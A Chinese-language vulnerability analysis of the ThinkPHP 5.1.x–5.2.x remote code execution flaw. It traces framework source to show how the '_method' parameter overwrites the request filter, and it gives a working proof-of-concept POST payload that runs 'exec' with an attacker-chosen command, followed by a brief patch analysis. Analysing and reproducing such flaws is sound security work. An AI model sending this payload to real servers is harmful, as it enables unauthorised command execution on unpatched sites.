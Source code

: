 categories:
- cve复现
tags:
- cve复现
title: ThinkPHP 5.1.x-5.2.x全版本RCE 漏洞分析
---
# ThinkPHP 5.1.x-5.2.x全版本RCE 漏洞分析



## 影响范围

5.1.x-5.1.32  5.2.x(这个还没去看)



## 漏洞复现

补丁: https://github.com/top-think/framework/commit/2454cebcdb6c12b352ac0acd4a4e6b25b31982e6 

测试环境 5.1.29

**入口处关闭报错** 

![image283](https://i.loli.net/2020/01/30/2x4QWZYgmXjqo8r.png)



和5.0.x版本的漏洞有着相似之处,都是`$this->method`方法未过滤导致的任意变量覆盖,从而导致命令执行

通过`$_POST['_method']=xxxxx`来进行任意变量覆盖

我们选择覆盖`$this->filter`,翻找Request类中的函数发现还是`Request::input`处可以命令执行,下断点可以看到调用堆栈



![image527](https://i.loli.net/2020/01/30/dVyPeZHbYM3TFq7.png)



我们从`Request::param`处开始分析

```php
public function param($name = '', $default = null, $filter = '')
    {
        if (!$this->mergeParam) {
            $method = $this->method(true);

            // 自动获取请求变量
            switch ($method) {
                case 'POST':
                    $vars = $this->post(false);
                    break;
                case 'PUT':
                case 'DELETE':
                case 'PATCH':
                    $vars = $this->put(false);
                    break;
                default:
                    $vars = [];
            }

            // 当前请求参数和URL地址中的参数合并
            $this->param = array_merge($this->param, $this->get(false), $vars, $this->route(false));

            $this->mergeParam = true;
        }

        ...
    }
```

因为是POST请求所以会进入POST分支,跟进`Request::post`

```php
	public function post($name = '', $default = null, $filter = '')
    {
        if (empty($this->post)) {
            $this->post = !empty($_POST) ? $_POST : $this->getInputData($this->input);
        }

        return $this->input($this->post, $name, $default, $filter);
    }
```

接着便会调用`Request::input`,其中`$this->post`和`$filter`可控

跟进`Request::input`

```php
public function input($data = [], $name = '', $default = null, $filter = '')
    {
		...

        // 解析过滤器
        $filter = $this->getFilter($filter, $default);

        if (is_array($data)) {
            array_walk_recursive($data, [$this, 'filterValue'], $filter);
            reset($data);
        } else {
            $this->filterValue($data, $name, $filter);
        }

       ...
    }
```

因为`$data`是数组(`$_POST`),调用`array_walk_recursive($data, [$this, 'filterValue'], $filter);`

对`$data`中所有值调用`Request::filterValue`

跟进去

```php
private function filterValue(&$value, $key, $filters)
    {
        $default = array_pop($filters);

        foreach ($filters as $filter) {
            if (is_callable($filter)) {
                // 调用函数或者方法过滤
                $value = call_user_func($filter, $value);
            } elseif (is_scalar($value)) {
                if (false !== strpos($filter, '/')) {
                    // 正则过滤
                    if (!preg_match($filter, $value)) {
                        // 匹配不成功返回默认值
                        $value = $default;
                        break;
                    }
                } elseif (!empty($filter)) {
                    // filter函数不存在时, 则使用filter_var进行过滤
                    // filter为非整形值时, 调用filter_id取得过滤id
                    $value = filter_var($value, is_int($filter) ? $filter : filter_id($filter));
                    if (false === $value) {
                        $value = $default;
                        break;
                    }
                }
            }
        }

        return $value;
    }
```

阅读代码可知,filterValue会对`$_POST`中所有值调用`$filter`中每一个可以调用的函数或方法

且`$filter`=`$_POST`

因此有



```
http://127.0.0.1/public/
POST:  var1=exec&var2=calc.exe&_method=filter
```



## 补丁分析

对method进行了白名单限制

## 参考

 [https://www.smi1e.top/thinkphp-5-1-x5-2-x全版本-rce-漏洞分析/](https://www.smi1e.top/thinkphp-5-1-x5-2-x全版本-rce-漏洞分析/) 